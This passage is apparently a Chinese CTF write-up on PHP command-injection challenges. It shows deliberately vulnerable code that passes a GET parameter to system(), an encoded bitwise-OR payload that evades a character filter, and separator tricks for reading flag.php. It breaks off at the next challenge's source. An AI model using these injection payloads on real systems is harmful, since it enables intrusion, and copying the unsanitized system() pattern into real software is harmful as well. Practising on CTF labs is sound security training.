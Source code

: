 ```
c='');('%13%19%13%14%05%0D'|'%60%60%60%60%60%60')(('%03%01%14'|'%60%60%60').' '.('%06%0C%01%07%02%10%08%10'|'%60%60%60%60%2C%60%60%60'));//
c='');system("cat flag.php");//

```



![](http://img.npfs06.top/20210223163735.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

## web 42

```
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```

**>/dev/null 2>&1**主要意思是不进行回显的意思，可参考<a href="https://www.cnblogs.com/tinywan/p/6025468.html" target="_blank">https://www.cnblogs.com/tinywan/p/6025468.html</a>

我们要让命令回显，那么进行命令分隔即可

```
;	//分号
|	//只执行后面那条命令
||	//只执行前面那条命令
&	//两条命令都会执行
&&	//两条命令都会执行
```

payload：cat flag.php;
payload:   cat flag.php||



## web 43

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
